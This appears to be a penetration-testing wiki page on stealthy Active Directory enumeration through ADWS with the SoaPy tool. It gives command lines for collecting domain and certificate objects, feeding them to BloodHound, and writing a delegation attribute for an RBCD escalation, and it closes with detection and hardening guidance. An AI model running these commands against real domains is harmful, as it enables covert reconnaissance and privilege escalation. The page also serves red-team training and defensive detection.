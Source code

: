 # Active Directory Web Services (ADWS) Enumeration & Stealth Collection

{{#include ../../banners/hacktricks-training.md}}

## What is ADWS?

Active Directory Web Services (ADWS) is **enabled by default on every Domain Controller since Windows Server 2008 R2** and listens on TCP **9389**.  Despite the name, **no HTTP is involved**.  Instead, the service exposes LDAP-style data through a stack of proprietary .NET framing protocols:

* MC-NBFX → MC-NBFSE → MS-NNS → MC-NMF

Because the traffic is encapsulated inside these binary SOAP frames and travels over an uncommon port, **enumeration through ADWS is far less likely to be inspected, filtered or signatured than classic LDAP/389 & 636 traffic**.  For operators this means:

* Stealthier recon – Blue teams often concentrate on LDAP queries.
* Freedom to collect from **non-Windows hosts (Linux, macOS)** by tunnelling 9389/TCP through a SOCKS proxy.
* The same data you would obtain via LDAP (users, groups, ACLs, schema, etc.) and the ability to perform **writes** (e.g. `msDs-AllowedToActOnBehalfOfOtherIdentity` for **RBCD**).

> NOTE: ADWS is also used by many RSAT GUI/PowerShell tools, so traffic may blend with legitimate admin activity.

## SoaPy – Native Python Client

[SoaPy](https://github.com/logangoins/soapy) is a **full re-implementation of the ADWS protocol stack in pure Python**.  It crafts the NBFX/NBFSE/NNS/NMF frames byte-for-byte, allowing collection from Unix-like systems without touching the .NET runtime.

### Key Features

* Supports **proxying through SOCKS** (useful from C2 implants).
* Fine-grained search filters identical to LDAP `-q '(objectClass=user)'`.
* Optional **write** operations ( `--set` / `--delete` ).
* **BOFHound output mode** for direct ingestion into BloodHound.
* `--parse` flag to prettify timestamps / `userAccountControl` when human readability is required.

### Installation (operator host)

```bash
python3 -m pip install soapy-adws   # or git clone && pip install -r requirements.txt
```

## Stealth AD Collection Workflow

The following workflow shows how to enumerate **domain & ADCS objects** over ADWS, convert them to BloodHound JSON and hunt for certificate-based attack paths – all from Linux:

1. **Tunnel 9389/TCP** from the target network to your box (e.g. via Chisel, Meterpreter, SSH dynamic port-forward, etc.).  Export `export HTTPS_PROXY=socks5://127.0.0.1:1080` or use SoaPy’s `--proxyHost/--proxyPort`.

2. **Collect the root domain object:**

```bash
soapy ludus.domain/jdoe:'P@ssw0rd'@10.2.10.10 \
      -q '(objectClass=domain)' \
      | tee data/domain.log
```

3. **Collect ADCS-related objects from the Configuration NC:**

```bash
soapy ludus.domain/jdoe:'P@ssw0rd'@10.2.10.10 \
      -dn 'CN=Configuration,DC=ludus,DC=domain' \
      -q '(|(objectClass=pkiCertificateTemplate)(objectClass=CertificationAuthority) \\
           (objectClass=pkiEnrollmentService)(objectClass=msPKI-Enterprise-Oid))' \
      | tee data/adcs.log
```

4. **Convert to BloodHound:**

```bash
bofhound -i data --zip   # produces BloodHound.zip
```

5. **Upload the ZIP** in the BloodHound GUI and run cypher queries such as `MATCH (u:User)-[:Can_Enroll*1..]->(c:CertTemplate) RETURN u,c` to reveal certificate escalation paths (ESC1, ESC8, etc.).

### Writing `msDs-AllowedToActOnBehalfOfOtherIdentity` (RBCD)

```bash
soapy ludus.domain/jdoe:'P@ssw0rd'@dc.ludus.domain \
      --set 'CN=Victim,OU=Servers,DC=ludus,DC=domain' \
      msDs-AllowedToActOnBehalfOfOtherIdentity 'B:32:01....'
```

Combine this with `s4u2proxy`/`Rubeus /getticket` for a full **Resource-Based Constrained Delegation** chain.

## Detection & Hardening

### Verbose ADDS Logging

Enable the following registry keys on Domain Controllers to surface expensive / inefficient searches coming from ADWS (and LDAP):

```powershell
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\NTDS\Diagnostics' -Name '15 Field Engineering' -Value 5 -Type DWORD
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\NTDS\Parameters' -Name 'Expensive Search Results Threshold' -Value 1 -Type DWORD
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\NTDS\Parameters' -Name 'Search Time Threshold (msecs)' -Value 0 -Type DWORD
```

Events will appear under **Directory-Service** with the full LDAP filter, even when the query arrived via ADWS.

### SACL Canary Objects

1. Create a dummy object (e.g. disabled user `CanaryUser`).
2. Add an **Audit** ACE for the _Everyone_ principal, audited on **ReadProperty**.
3. Whenever an attacker performs `(servicePrincipalName=*)`, `(objectClass=user)` etc. the DC emits **Event 4662** which contains the real user SID – even when the request is proxied or originates from ADWS.

Elastic pre-built rule example:

```kql
(event.code:4662 and not user.id:"S-1-5-18") and winlog.event_data.AccessMask:"0x10"
```

## Tooling Summary

| Purpose | Tool | Notes |
|---------|------|-------|
| ADWS enumeration | [SoaPy](https://github.com/logangoins/soapy) | Python, SOCKS, read/write |
| BloodHound ingest | [BOFHound](https://github.com/bohops/BOFHound) | Converts SoaPy/ldapsearch logs |
| Cert compromise | [Certipy](https://github.com/ly4k/Certipy) | Can be proxied through same SOCKS |

## References

* [SpecterOps – Make Sure to Use SOAP(y) – An Operators Guide to Stealthy AD Collection Using ADWS](https://specterops.io/blog/2025/07/25/make-sure-to-use-soapy-an-operators-guide-to-stealthy-ad-collection-using-adws/)
* [SoaPy GitHub](https://github.com/logangoins/soapy)
* [BOFHound GitHub](https://github.com/bohops/BOFHound)
* [Microsoft – MC-NBFX, MC-NBFSE, MS-NNS, MC-NMF specifications](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nbfx/)

{{#include ../../banners/hacktricks-training.md}}
